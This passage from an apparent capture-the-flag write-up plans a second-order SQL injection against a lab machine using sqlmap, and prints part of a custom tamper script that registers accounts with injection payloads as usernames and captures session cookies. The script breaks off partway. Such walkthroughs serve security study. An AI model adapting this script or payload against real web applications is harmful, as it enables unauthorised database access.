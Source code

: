 To do this successfully with `sqlmap`, we’ll need to do the following steps:

  1. Create an account with username being the injectable item 
     * via tamper script
  2. Login with that account 
     * `sqlmap` main functionality
  3. Visit `/notes.php` to look for results 
     * `--second-order` flag to tell `sqlmap` to visit `/notes.php` to look for output
     * alternatively, we could leave this off and allow `sqlmap` to follow the redirect it gets back from logging in

#### Tamper Script - nightmare-tamper.py

I used two references to build my tamper script ([sans blog post](https://pen-
testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win) and
[pentest blog post](https://pentest.blog/exploiting-second-order-sqli-flaws-
by-using-burp-custom-sqlmap-tamper/)), and of course learned from
[ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA).

Key points for the script. The `tamper` function will be called before each
query that `sqlmap` makes to the target. `tamper` is passed the payload that
will be used, and it returns that payload for use. We also have the
opportunity to set other things, like cookies.

This script call `create_account`, which will register an account on the
Nightmare page, and get back a “PHPSESSID” cookie that we will return so that
it’s used with the rest additional two requests that will be associated with
the session.

We’ll want to use the same password here at registration that we use in the
next step for login.

Here’s `nightmare-tamper.py`:

    
    
    #!/usr/bin/env python
    
    import re
    import requests
    from lib.core.enums import PRIORITY
    __priority__ = PRIORITY.NORMAL
    
    def dependencies():
        pass
    
    def create_account(payload):
        s = requests.Session()
    
        # register with username = payload
        # user=a%27%29+--+-&pass=df&register=Register
        post_data = { 'user':payload, 'pass':'df', 'register':'Register' }
        proxies = { 'http':'http://127.0.0.1:8080' }
        response = s.post("http://10.10.10.66/register.php", data=post_data, proxies=proxies)
        # get cookie
        #Set-Cookie: PHPSESSID=l5vdi7j5gq6g978bor44fndt80; path=/
        php_cookie = re.search('PHPSESSID=(.*?);', response.headers['Set-Cookie']).group(1)
    